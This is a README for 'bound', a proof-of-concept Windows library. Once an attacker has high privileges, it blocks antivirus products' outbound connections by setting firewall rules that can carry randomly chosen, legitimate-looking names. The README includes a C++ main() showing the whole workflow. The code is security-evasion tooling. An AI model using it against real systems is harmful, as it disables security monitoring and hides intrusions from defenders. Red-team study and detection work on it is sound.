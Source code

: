 # bound

`bound` is a **PoC** for a high-privilege evasion technique that consists in blocking outbound connections made by AV solutions by setting firewall rules.


The project includes several documented functions, here is a rundown:

- `enumConnectionsWMI` - enumerate all the active network connections using the Windows Management Instrumentation (WMI)
- `getImageFileName` - get image filename of a given process (`getImageFileName(3912) returns "C:\Windows\System32\svchost.exe"`)
- `ipToRange` - convert IP to CIDR range (`ipToRange("192.168.1.8") returns -> "192.168.0.0/16"`)
- `getRandomRule` - get a random firewall rule (both name and description) in a Rule object from a vector of rules
- `filterConnections` - check if vector of all active connections contain the PIDs of the processes to block
- `filterProcesses` - filter running processes to get vector of PIDs of a list of processes
- `setFWRule` - add a new firewall rule using the Windows Firewall with Advanced Security API


The provided `main` function shows a typical use of the library

```cpp
int main() {
	printf("[~] starting bound\n");

	std::vector<NetworkConnection> allConnections;
	std::vector<NetworkConnection> connectionsToBlock;
	std::vector<DWORD> foundPIDs;

	// fill this vector will all the processes to block
	std::vector<std::wstring> processesToBlock = { L"svchost.exe" };

	if (!enumConnectionsWMI(allConnections)) {
		std::cout << "[!] Error while enumerating WMI connections" << std::endl;
		return 1;
	}

	if (!filterProcesses(processesToBlock, foundPIDs) || foundPIDs.empty()) {
		std::cout << "[!] Error while filtering processes" << std::endl;
		return 1;
	}

	filterConnections(foundPIDs, allConnections, connectionsToBlock);
	std::cout << "[~] Found " << connectionsToBlock.size() << " connections to block" << std::endl;

	for (const auto& connection : connectionsToBlock) {
		std::wstring fullPath = getImageFileName(connection.owningProcess);
		std::wstring ipRange = ipToRange(connection.remoteAddress);
		std::wcout << "[~] Setting rule for " << fullPath << " and range " << ipRange << std::endl;

		if (!setFWRule(fullPath, ipRange))
			std::wcout << "[!] Failed setting rule for " << fullPath << " and range " << ipRange << std::endl;
	}

	return 0;
}
```

1. Enumerate **all** the active connections using WMI
2. Find the PID of all the processes to block
3. Filter the network connections related to these processes
4. Set firewall rules for the resulting connections
